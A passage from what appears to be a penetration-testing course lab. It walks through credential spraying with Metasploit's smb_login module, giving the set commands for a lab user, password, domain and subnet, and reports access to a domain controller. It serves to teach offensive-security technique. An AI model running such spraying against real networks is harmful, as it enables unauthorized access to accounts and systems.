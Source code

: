   - In order to accomplish this, we first obtained initial access to the Linux machine and then used the credentials we found on that machine to compromise a Windows machine. 

  - We obtained more credentials on the Windows machine and will now see if those credentials can be used anywhere else. 

  - Our goal is to gain access to credentials that can access the domain controller, WINDC01, where our objective lies.

#### Credential Spraying Demonstration

Now that we have a new set of credentials, we can test its access by spraying the credentials across the network. 

1. Demonstrate this by loading the `smb_login` module in Metasploit.

	- `use auxiliary/scanner/smb/smb_login`

2. Next, fill in the SMBDomain, SMBUser, SMBPass, and RHOSTS fields.

	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set SMBDomain megacorpone`
	
	- `set RHOSTS 172.22.117.0/28`
	
	- ![A screenshot depicts the options settings of the module.](Images/smblogin.PNG)

3. Run the exploit

	- `run`
	
4. Once the scan gets to 172.22.117.10, you should see a successful logon. This is the IP address of WINDC01, meaning the credentials we cracked were highly privileged and we now have access to a domain controller.
